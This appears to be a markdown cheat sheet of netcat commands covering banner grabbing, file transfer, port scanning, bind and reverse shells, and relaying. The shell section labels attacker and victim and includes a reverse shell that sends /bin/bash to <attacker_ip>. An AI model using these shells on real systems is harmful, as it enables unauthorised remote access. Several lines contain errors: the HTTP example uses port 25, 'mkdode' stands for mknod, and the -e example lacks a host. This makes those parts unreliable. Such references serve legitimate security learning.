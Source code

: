 * [Netcat](#netcat)

# Netcat
Refs:
* <https://www.youtube.com/watch?v=7YrYRQQLjdA>
* <https://www.poftut.com/netcat-nc-command-tutorial-examples/>
## banner grabbing
```sh
# ssh
netcat 192.251.124.3 22
# SMTP
netcat 192.251.124.3 25

# HTTP
netcat 192.251.124.3 25
GET / HTTP/1.1
```
## listener
```sh
netcat -l -p 6789
```
## transfer file
```sh
# sender
netcat <receiver_ip_addr> 6789 < send_file
# receiver
netcat -l -p 6789 > recv_file
```
## port scanning
```sh
netcat -v -w1 -z <target_ip> <port_range>
```
`-v`  : verbose
`-w1` : wait for 1 sec before timeout
`-z`  : No I/O
## executing program
- The program can be an executable file (EXE, ELF, etc) or a script (shell, ruby, python etc)
- Any I/O is redirected to the established socket
```sh
netcat -e /path/to/executable
```
## running shell
### bind shell
```sh
# attacker
netcat <victim_ip> 1234
# victim
netcat -l -p 1234 -e /bin/bash
```
### reverse shell
```sh
# attacker
netcat -l -p 1234
# victim
netcat <attacker_ip> 1234 -e /bin/bash
```
## relaying
### server client relay
```
   ------                 -------------                 ----- 
  |client|-------------->|server|client|-------------->|server|
   ------                 -------------                 ------
                             Relay                      Target
```
```sh
# on relay
mkdode mypipe p
netcat -l -p 6789 < mypipe | netcat <target_ip> 80 > mypipe
```
